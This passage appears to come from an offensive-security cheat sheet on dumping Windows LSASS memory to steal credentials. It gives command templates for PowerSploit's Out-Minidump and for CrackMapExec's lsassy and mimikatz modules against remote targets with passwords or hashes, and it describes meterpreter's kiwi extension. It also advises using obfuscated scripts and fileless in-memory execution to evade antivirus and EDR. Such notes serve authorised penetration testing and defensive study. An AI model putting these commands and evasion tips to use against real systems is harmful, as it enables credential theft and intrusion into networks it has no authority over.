 The `Out-Minidump.pS1` PowerShell script, part of `PowerSploit` suite, uses
the `MiniDumpWriteDump` API, retrieved from
`System.Management.Automation.WindowsErrorReporting`, to create a minidump of
the specified process.

Obfuscated versions of `Out-Minidump.pS1` may held good result against security
products (antivirus and `EDR` solutions).

```
# Import-Module .\Out-Minidump.ps1

# Dumps lsass, or the process specified by <PROCESS_NAME>, memory in the current (or given) folder.
Get-Process <lsass | PROCESS_NAME> | Out-Minidump [-DumpFilePath <FOLDER>]
Out-Minidump -Process (Get-Process -Id <PID>)
```

###### CrackMapExec

The Python `CrackMapExec` tool offers two modules to dump and extract
credentials from the `LSASS` process of remote host(s):

  - `mimikatz`, which uses the `Invoke-Mimikatz.ps1` `PowerShell` script.
    `CrackMapExec` will temporally host the script using a Python web server
    and instruct the remote host(s) to download and inject in memory the script
    in order to execute `Invoke-Mimikatz -DumpCreds` with out creating a file
    on disk.
  - `lsassy` which leverages the `lsassy` Python library.

Note that as `Invoke-Mimikatz.ps1` is being more and more detected by antivirus
solutions, it is recommended to make use of the `lsassy` module.

Standalone binaries of `CrackMapExec` for Linux / Windows are available on the
following [`OffensivePythonPipeline` GitHub
repository](https://github.com/Qazeer/OffensivePythonPipeline).

```
# It is recommended to use the released crackmapexec binaries from GitHub (a GitHub account being required to download the files): https://github.com/byt3bl33d3r/CrackMapExec/actions

# lsassy module
crackmapexec smb <TARGETS> -M lsassy (-d <DOMAIN> | --local-auth) -u <USERNAME> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>)

# Mimikatz module
crackmapexec smb <TARGETS> -M mimikatz (-d <DOMAIN> | --local-auth) -u <USERNAME> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>)
```

###### Metasploit / meterpreter

The `meterpreter` extensions `mimikatz` and `kiwi` can be used to dump
credentials through a `meterpreter` session without the need to write any file
to the compromised host's disks. The `kiwi` extension replace the previous
`mimikatz` extension with a much simpler interface command system and works on
`Windows XP SP3` and `Windows 2003 SP1` all the way up to `Windows 10` and
`Windows 2019`.
